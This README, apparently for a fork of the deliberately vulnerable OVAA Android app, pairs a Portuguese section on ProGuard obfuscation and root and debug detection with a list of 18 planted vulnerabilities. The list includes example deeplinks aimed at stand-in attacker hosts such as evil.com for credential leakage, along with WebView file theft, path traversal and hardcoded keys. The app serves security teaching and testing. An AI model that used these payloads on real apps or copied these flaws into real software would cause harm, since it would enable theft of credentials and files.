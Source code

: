 ## Description

 
# 🔒 Segurança no Aplicativo - ProGuard, Debug e Root Detection

Este projeto implementa diversas técnicas de segurança para **proteger contra engenharia reversa**, **detectar root e depuração**, além de **ativar a ofuscação de código com ProGuard**. 

---

## 🚀 **Funcionalidades de Segurança Implementadas**
✅ **ProGuard ativado** para ofuscação de código  
✅ **Verificação de Debug (Prevenção de Análise)**  
✅ **Detecção de Root (Bloqueio de dispositivos rooteados)**  
✅ **Script para injetar segurança automaticamente**  

---

## 🔹 **1. Ativando o ProGuard (Ofuscação de Código)**

O **ProGuard** está ativado para garantir que o código seja **ofuscado**, dificultando a engenharia reversa.

📂 **Alterações no arquivo `app/build.gradle`**:
```gradle
buildTypes {
    release {
        minifyEnabled true  // 🔹 Ativa a ofuscação
        shrinkResources true // 🔹 Remove recursos não utilizados
        proguardFiles getDefaultProguardFile('proguard-android-optimize.txt'), 'proguard-rules.pro'
    }
}
```

📂 **Alterações no arquivo `proguard-rules.pro`**:

# 🔒 Impede que classes de segurança sejam removidas
-keep class oversecured.ovaa.activities.MainActivity { *; }

# 🔒 Ofusca todas as classes do app, exceto as Activities
-keep public class * extends android.app.Activity 
-dontwarn android.support.*

📌 Como testar se o código foi ofuscado?
Gere a versão release do APK:
```
./gradlew assembleRelease
```
Verifique o arquivo mapping.txt (gera os nomes ofuscados):
```
cat app/build/outputs/mapping/release/mapping.txt
```

🔹 2. Detecção de Debug (Proteção Contra Engenharia Reversa)
O app detecta se está sendo executado em um dispositivo rooteado e encerra a execução caso positivo.

📂 Alterações no MainActivity.java

Aproveite 🛡✨

###
OVAA (Oversecured Vulnerable Android App) is an Android app that aggregates all the platform's known and popular security vulnerabilities.

## List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on [our blog](https://blog.oversecured.com/).

1. Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.
2. Obtaining access to arbitrary content providers (not exported, but with the attribute `android:grantUriPermissions="true"`) via deeplink `oversecured://ovaa/grant_uri_permissions`. The attacker's app needs to process `oversecured.ovaa.action.GRANT_PERMISSIONS` and pass intent to `setResult(code, intent)` with flags such as `Intent.FLAG_GRANT_READ_URI_PERMISSION` and the URI of the content provider.
3. Vulnerable host validation when processing deeplink `oversecured://ovaa/webview?url=...`.
4. Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.
5. Access to arbitrary activities and acquiring access to arbitrary content providers in `LoginActivity` by supplying an arbitrary Intent object to `redirect_intent`.
6. Theft of arbitrary files in `MainActivity` by intercepting an activity launch from `Intent.ACTION_PICK` and passing the URI to any file as data.
7. Insecure broadcast to `MainActivity` containing credentials. The attacker can register a broadcast receiver with action `oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA` and obtain the user's data.
8. Insecure activity launch in `MainActivity` with action `oversecured.ovaa.action.WEBVIEW`, containing the user's encrypted data in the query parameter `token`.
9. Deletion of arbitrary files via the insecure `DeleteFilesSerializable` deserialization object.
10. Memory corruption via the `MemoryCorruptionParcelable` object.
11. Memory corruption via the `MemoryCorruptionSerializable` object.
12. Obtaining read/write access to arbitrary files in `TheftOverwriteProvider` via path-traversal in the value `uri.getLastPathSegment()`.
13. Obtaining access to app logs via `InsecureLoggerService`. Leak of credentials in `LoginActivity` `Log.d("ovaa", "Processing " + loginData)`.
14. Use of the hardcoded AES key in `WeakCrypto`.
15. Arbitrary Code Execution in `OversecuredApplication` by launching code from third-party apps with no security checks.
16. Use of very wide file sharing declaration for `oversecured.ovaa.fileprovider` content provider in `root` entry.
17. Hardcoded credentials to a dev environment endpoint in `strings.xml` in `test_url` entry.
18. Arbitrary code execution via a DEX library located in a world-readable/writable directory.

---------------------------------------
*Licensed under the Simplified BSD License*

*Copyright (c) 2020, Oversecured Inc*

https://oversecured.com/
